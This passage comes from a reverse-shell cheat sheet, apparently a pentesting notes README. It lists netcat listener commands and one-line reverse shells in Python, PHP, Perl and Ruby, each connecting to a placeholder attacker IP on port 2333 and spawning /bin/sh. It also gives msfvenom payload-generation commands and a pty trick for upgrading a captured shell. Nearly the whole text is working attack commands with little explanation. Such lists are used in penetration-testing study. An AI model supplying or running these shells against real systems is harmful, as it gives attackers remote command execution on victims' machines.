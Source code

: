     nc -lvvp 2333

Then hacked host:
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### 9. php

    nc -lvvp 2333

Hacked host:
    
    php -r '$sock=fsockopen("<attacker_ip>",2333);exec("/bin/sh -i <&3 >&3 2>&3");'

### 10. Perl

    nc -lvvp 2333

Then hacked host:
    
    perl -e 'use Socket;$i="<attacker_ip>";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### 11. Ruby

    nc -lvvp 2333

Hacked host:

    ruby -rsocket -e 'c=TCPSocket.new("<attacker_ip>","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

    Or

    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<attacker_ip>","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

### 12. Metasploit venom

`msfvenom -l` enquiries which platform.

    msfvenom -l payloads | grep 'cmd/unix/reverse'

    msfvenom -p cmd/unix/reverse_python LHOST=<attacker_ip> LPORT=2333 -f raw

### 13. get full terminal

Normally we gain the shell, but we cannot use vim. So there is a python method to escalate the shell's use. But I tested the method, it sometimes doesnot work, and I need to do more tests and researches.

    python -c "import pty;pty.spawn('/bin/bash')"
